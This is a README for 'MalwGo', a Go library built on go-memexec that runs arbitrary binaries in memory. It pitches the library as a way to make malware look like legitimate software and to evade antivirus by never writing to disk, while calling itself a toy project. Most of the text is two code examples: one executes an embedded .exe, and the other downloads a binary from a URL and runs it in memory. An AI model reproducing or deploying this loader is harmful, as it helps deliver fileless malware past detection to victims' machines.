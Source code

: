 # MalwGo (Malware + Go)

Notice: This project is a toy project built on top of [go-memexec](github.com/amenzhinsky/go-memexec) and is not intended to be used for malicious purposes.

Create a wrapper around any binary file to run it in memory. This can be useful to create for example a malware that runs like a legit software, and also to avoid antivirus detection (since the binary is not saved in the disk & can be downloaded from internet).

### Load a programm in memory from a embeded file

```go
package main

import (
    "fmt"
    "github.com/PiterWeb/malwgo"
    _ "embed"
)

//go:embed mybinary.exe
var MyBinary []byte

func main() {

    malgwo_inst, err := malwgo.New(&malwgo.Options{
        bin: MyBinary,
        onStart: func() {
            fmt.Println("Starting...")
        },
        onStop: func() {
            fmt.Println("Stopping...")
        },
        onBackground: func() {
            fmt.Println("Running in background...")
        },
    })

    if err != nil {
        fmt.Println(err)
        return
    }

    output, err := malgwo_inst.Exec(nil)

    if err != nil {
        fmt.Println(err)
        return
    }

    fmt.Println(output)
}
```

### Load a programm in memory from internet

```go
package main

import (
    "fmt"
    "github.com/PiterWeb/malwgo"
)

func main() {

    malgwo_inst, err := malwgo.New(&malwgo.Options{
        binUrl: "https://example.com/mybinary.exe",
        onStart: func() {
            fmt.Println("Starting...")
        },
        onStop: func() {
            fmt.Println("Stopping...")
        },
        onBackground: func() {
            fmt.Println("Running in background...")
        },
    })

    if err != nil {
        fmt.Println(err)
        return
    }

    output, err := malgwo_inst.Exec(nil)

    if err != nil {
        fmt.Println(err)
        return
    }

    fmt.Println(output)
}
```
